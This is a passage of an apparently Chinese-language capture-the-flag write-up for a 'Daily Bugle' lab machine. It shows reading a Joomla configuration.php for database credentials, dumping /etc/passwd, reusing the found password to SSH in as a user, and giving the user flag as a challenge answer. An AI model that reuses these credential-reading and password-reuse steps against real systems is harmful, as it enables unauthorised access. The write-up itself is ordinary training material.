 #读取/var/www/html/configuration.php。找到数据库账号密码，外网不可连接
public $user = 'root';
public $password = 'nv5uz9r3ZEDzVjNu';


#读取/etc/passwd
root:x:0:0:root:/root:/bin/bash
bin:x:1:1:bin:/bin:/sbin/nologin
daemon:x:2:2:daemon:/sbin:/sbin/nologin
adm:x:3:4:adm:/var/adm:/sbin/nologin
lp:x:4:7:lp:/var/spool/lpd:/sbin/nologin
sync:x:5:0:sync:/sbin:/bin/sync
shutdown:x:6:0:shutdown:/sbin:/sbin/shutdown
halt:x:7:0:halt:/sbin:/sbin/halt
mail:x:8:12:mail:/var/spool/mail:/sbin/nologin
operator:x:11:0:operator:/root:/sbin/nologin
games:x:12:100:games:/usr/games:/sbin/nologin
ftp:x:14:50:FTP User:/var/ftp:/sbin/nologin
nobody:x:99:99:Nobody:/:/sbin/nologin
systemd-network:x:192:192:systemd Network Management:/:/sbin/nologin
dbus:x:81:81:System message bus:/:/sbin/nologin
polkitd:x:999:998:User for polkitd:/:/sbin/nologin
sshd:x:74:74:Privilege-separated SSH:/var/empty/sshd:/sbin/nologin
postfix:x:89:89::/var/spool/postfix:/sbin/nologin
chrony:x:998:996::/var/lib/chrony:/sbin/nologin
jjameson:x:1000:1000:Jonah Jameson:/home/jjameson:/bin/bash
apache:x:48:48:Apache:/usr/share/httpd:/sbin/nologin
mysql:x:27:27:MariaDB Server:/var/lib/my



#利用 jjameson：nv5uz9r3ZEDzVjNu通过ssh登录系统拿到初始shell
```
┌──(root💀kali)-[~]
└─# ssh jjameson@10.10.49.149                                                                                                                                                                                                         255 ⨯
The authenticity of host '10.10.49.149 (10.10.49.149)' can't be established.
ECDSA key fingerprint is SHA256:apAdD+3yApa9Kmt7Xum5WFyVFUHZm/dCR/uJyuuCi5g.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.49.149' (ECDSA) to the list of known hosts.
jjameson@10.10.49.149's password: 
Last login: Mon Dec 16 05:14:55 2019 from netwars
[jjameson@dailybugle ~]$ ls
user.txt
[jjameson@dailybugle ~]$ cat user.txt
27a260fe3cba712cfdedb1c86d80442e
[jjameson@dailybugle ~]$ 
```

#拿到user.txt
```
question：What is the user flag?
answer：27a260fe3cba712cfdedb1c86d80442e
```
